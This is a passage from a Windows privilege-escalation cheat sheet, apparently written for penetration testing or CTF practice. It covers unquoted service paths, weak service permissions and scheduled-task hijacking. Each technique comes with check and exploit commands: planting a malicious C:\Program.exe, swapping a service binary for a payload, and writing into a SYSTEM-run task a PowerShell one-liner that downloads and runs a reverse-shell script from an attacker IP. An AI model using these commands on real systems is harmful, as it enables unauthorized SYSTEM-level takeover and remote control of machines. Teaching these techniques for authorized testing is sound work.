 If a service path contains spaces and no quotes:

```
C:\Program Files\Vulnerable App\Service.exe
```

Windows will execute everything it finds along the path (e.g. `C:\Program.exe`).

**🔍 Check:**

```powershell
wmic service get name,displayname,pathname,startmode | findstr /i "Program Files"
```

**💣 Exploit:**

```powershell
copy malicious.exe "C:\Program.exe"
net start <servicename>
```

***

#### 3. 🧩 Weak Service Permissions

**🔍 Check Permissions**

```powershell
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
```

If you can modify service binaries or configurations — replace them.

**💥 Replace Service Binary**

```powershell
sc stop VulnService
copy payload.exe "C:\Program Files\VulnService\service.exe"
sc start VulnService
```

***

#### 4. 🧠 Scheduled Tasks

**🔍 Check Tasks**

```powershell
schtasks /query /fo LIST /v
```

If a scheduled task runs as SYSTEM and references a writable file — hijack it.

**💣 Example**

```powershell
echo "powershell -c iex(New-Object Net.WebClient).DownloadString('http://10.10.14.2/rev.ps1')" > C:\path\to\task.bat
```

***
